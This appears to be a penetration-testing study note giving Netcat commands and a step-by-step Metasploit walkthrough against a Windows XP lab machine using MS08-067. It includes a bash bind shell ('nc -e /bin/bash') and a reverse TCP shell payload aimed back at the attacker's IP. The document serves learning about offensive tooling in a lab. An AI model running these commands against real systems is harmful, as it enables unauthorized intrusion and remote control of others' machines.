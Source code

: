 ## Netcat

```
# check to see if a port is listening
nc -v 192.168.20.9 80

# listen on a port
nc -lvp 1234

# listen on a port and execute any input using bash
nc -lvp 1234 -e /bin/bash

# connect to a port
nc 192.168.20.9 1234

# sending a file using netcat
# machine 1: setup to listen and redirect any input to a file
nc -lvp 1234 > netcatfile

# machine 2: send a file over the connection:
np 192.168.20.9 1234 < mydirectory/myfile

-l: listen
-v: verbose
-p: port
```

# Metasploit

Going to use Metasploit to exploit an unpatched vulnerability on a Windows XP target. The vulsenerability is patched by Microsoft Security Bulletin MS08-067. Later we will find out how to find potential vulnerabilities on target machines. 

### Metasploit console

```
sudo systemctl start postgresql.service # start the database
msfconsole # starts the console
help # get help 
help <command> # get help on a command

search ms08-067 # built in search for exploit
info exploit/windows/smb/ms08_067_netapi # the path is from the pervious search command

use windows/smb/ms08_067_netapi # loads the exploit module
show options # show options that must be provided to use the exploit
set RHOST 192.168.20.10 # sets the RHOST option
show targets # shows what machines this exploit can attack
show payloads # shows compatible payloads for this attack
exploit # start the exploit
meterpreter > help # help for meterpreter
meterpreter > exit # exit Meterpreter

# Setting reverse shell payload
set payload windows/shell_reverse_tcp
show options # shows new options that must be set for the reverse shell
set LHOST 192.168.20.9 # sets the LHOST option to our attacking machine IP
exploit # start the exploit with the reverse shell payload
```
